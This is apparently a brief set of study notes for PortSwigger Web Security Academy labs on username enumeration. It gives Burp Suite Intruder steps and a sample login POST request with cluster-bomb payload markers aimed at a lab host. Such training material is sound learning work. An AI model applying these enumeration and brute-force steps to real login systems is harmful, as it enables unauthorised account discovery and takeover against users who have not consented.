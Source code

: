 ## Username enumeration via subtly different responses

1.First try to loging show Invalid username or password 

2. Loging page to worng username and password and burp request and sand intruder and add username 
3. set payloads
4. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
5. and run the attack


 ## Username enumeration via account lock
 
  1. First try to loging show Invalid username or password
  2. Loging page to worng username and password and burp request and sand intruder and set paylods in username password add $$ 
  
  ## EXAMPLE
  
    POST /login HTTP/1.1
    Host: ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Cookie: session=gyv8YLrvVqRcgxsc6JaG8vIgnRezoHew
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Referer: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net/login  
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    username=§asif§&password=khan§§
    
 3. select Attack Type=Cluster bomb
 4. set paylods number 1 simple list and past paylods number 2 null paylods and paylods option select type 4
 5. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
 6. start the attack 
    
    
    
    
    
    
    
    
    
    
